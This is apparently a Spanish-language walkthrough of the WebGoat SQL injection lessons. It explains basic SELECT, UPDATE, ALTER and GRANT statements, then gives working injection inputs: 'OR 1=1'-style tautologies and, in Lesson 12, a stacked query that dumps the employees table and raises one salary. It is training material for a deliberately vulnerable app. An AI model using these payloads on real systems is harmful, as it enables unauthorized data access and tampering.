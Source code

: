 # (A3) Injection

## Lesson 2

### Desarrollo

Debemos acceder al departamento del empleado "Bob Franco" mediante una consulta SQL.

Para poder realizar la consulta usaremos el comando `SELECT`:

```sql
SELECT columna FROM tabla WHERE condiciones

-- Ejemplo
SELECT * FROM employees WHERE userid='96134'
SELECT first_name FROM employees WHERE userid='96134'
SELECT department FROM employees WHERE first_name='Bob' AND last_name='Franco'
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
SELECT department FROM employees WHERE userid='96134'
```

## Lesson 3

### Desarrollo

Debemos modificar el departamento del empleado "Bob Franco" mediante una consulta SQL a "Sales".

Para poder realizar la consulta usaremos el comando `UPDATE`:

```sql
UPDATE tabla SET columna='valor' WHERE condiciones

-- Ejemplo
UPDATE employees SET first_name = 'Mario' WHERE userid='96134'
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
UPDATE employees SET department='Sales' WHERE userid=96134
```

## Lesson 4

Debemos añadir una columna "phone(varchar(20))" a la tabla "employees".

Para poder realizar la consulta usaremos el comando `ALTER TABLE`:

```sql
ALTER TABLE tabla ADD columna tipo

-- Ejemplo
ALTER TABLE employees ADD hobby varchar(20)
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
ALTER TABLE employees ADD phone varchar(20)
```

## Lesson 5

### Desarrollo

Debemos dar permisos al usuario "unauthorized_user" en la tabla "grant_rigths".

Para poder realizar la consulta usaremos el comando `GRANT`:

```sql
GRANT privilegio ON obj TO usuario
```

Donde:

- `privilegio`: Es el permiso que se desea otorgar. Puede ser `SELECT`, `INSERT`, `UPDATE`, `DELETE`, `ALL`.
- `obj`: Es el objeto al que se le otorga el permiso. Puede ser una tabla, vista, procedimiento almacenado, etc.
- `usuario`: Es el usuario al que se le otorga el permiso.

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
GRANT SELECT ON grant_rigths TO unauthorized_user
```

## Lesson 9

### Desarrollo

Debemos acceder a la información de la tabla de usuarios seleccionando las opciones correctas para completar la consulta SQL inyectada.

La sentencia SQL original es la siguiente:

```sql
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";
```

### Solución

Para completar el ejercicio debemos seleccionar las siguientes opciones:

- `Smith'`
- `OR`
- `1=1`

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM user_data WHERE last_name='Smith' OR 1=1
```

## Lesson 10

### Desarrollo

Debemos acceder a la información de la tabla de usuarios.

Tenemos disponibles dos inputs de texto, uno para `Login_Count` y otro para `User_Id`.

### Solución

Para completar el ejercicio debemos ingresar `1` o cualquier otro valor en el campo `Login_Count` y `1 OR '1'='1'` en el campo `User_Id`.

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM user_data WHERE Login_Count=1 OR '1'='1'
```

## Lesson 11

### Desarrollo

Debemos obtener la lista de usuarios completa inyectando una sentencia SQL.

Disponemos de dos inputs de texto, uno para `last_name` y otro para `auth_tan`.

La sentencia SQL es la siguiente:

```sql
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "'";
```

### Solución

Si queremos obtener la lista completa de usurios debemos ingresar `Smith` en el campo `last_name` y `3SL99A' or '1'='1` para ejecutar la inyección SQL.

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM employees WHERE last_name='Smith' AND auth_tan='3SL99A' or '1'='1'
```
![alt text](imgs/sql0.png)

## Lesson 12

### Desarrollo

Se nos pide actualizar el salario del empleado "John Smith" por encima del resto.

### Solución

Podemos encadenar varias sentencias SQL para lograr el objetivo. Para ello, debemos ingresar la siguiente consulta SQL:

```sql
3SL99A' or '1' = '1'; SELECT * from employees;UPDATE employees SET salary = 1000000 WHERE last_name = 'Smith';--
```

Debemos tener cuidado de no sobrepasar el valor máximo permitido para el campo `salary`.

![alt text](imgs/sql1.png)